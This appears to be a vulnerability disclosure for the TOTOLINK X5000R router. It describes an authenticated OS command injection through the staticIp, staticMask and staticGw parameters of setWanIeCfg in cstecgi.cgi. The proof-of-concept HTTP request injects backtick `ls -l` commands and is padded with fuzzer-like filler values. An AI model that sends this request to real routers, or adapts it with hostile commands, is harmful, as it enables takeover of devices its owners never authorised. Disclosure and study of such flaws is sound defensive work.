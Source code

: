 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setWanIeCfg`.Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setWanIeCfg` (at 0x411324), binary /cgi-bin/cstecgi.cgi. The parameter `staticIp`,`staticMask`,`staticGw` are passed to 'Uci_set_str' without any check.
![setWanIeCfg](image.png)
Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image-1.png)
![uci_set_str2](image-2.png)
## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 1016
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setWanIeCfg", "wanMode": "aa`wvqaaaa\\a^be]aaaaead^]]a\\ad\\aaaaa]aa^aaa`baa]aaaaecaacaaa_aaaaabaa\\ad]\\aaaad`aaedaaa^_aawzqt^aab_^e_aaa^b`aaaaa]auztwaa\\a``aa", "1": ")yzq", "switchOpMode": "aaazzq\\bab__^bc]aa_\\caada_aa^`a^aaeaa`a]aacaa\\`aaeadaaaa^`aa_^a\\baaaaaeaaaab_a\\abaa\\aaa^aad{xqwabaaa`ba\\eaa_aaaaaaa^y{qt_]acaaaa", "0": "wumwzrwuq", "staticIp": "`ls -l`", "staticMask": "`ls -l`", "staticGw": "`ls -l`", "staticMtu": ")&`vzo`", "dhcpMtu": "]\\a\\]aae\\a]a^a^]`eaxuqw\\a^aaaa_]da^aaaaaecadebaaad]aaabaaeca`]a_aaaba]daatzts{a_^ac]daccaaaaaaa_aae^aaaeaaadbaaa_d_aa`^a_aaaaa`aaa]`aea]^aaa`daaa_aaaaadeaaaaae", "pppoeUser": "vzq{{q{zq", "pppoeMtu": "ba]zzqa\\]a\\aa]`^ccaab_`aaaa_a`aaa]aaeaa_aeed\\ba_aca`aeaaa^e_aaaaaaaa`_e]aa`a`e]acacaadaaaaeyzqwacc]aadaaaca\\aa_eaaaawzqracaba__a", "1492": "7twq", "dnsMode": "w~q{zq{zq", "priDns": "a_axxqaabe]b\\ca]ab_aaac`^eaad]]ab\\a_ba^aaea\\]aa^aa]a_ab_dc\\e_aaa`a^aaaaa]_]acbaaaa^_a]aababw|ut_e\\aaaea]a^aaa_aac_c]uzqsaaaaaaaa", "secDns": "ywswwqrxq"}
```
![alt text](image-4.png)
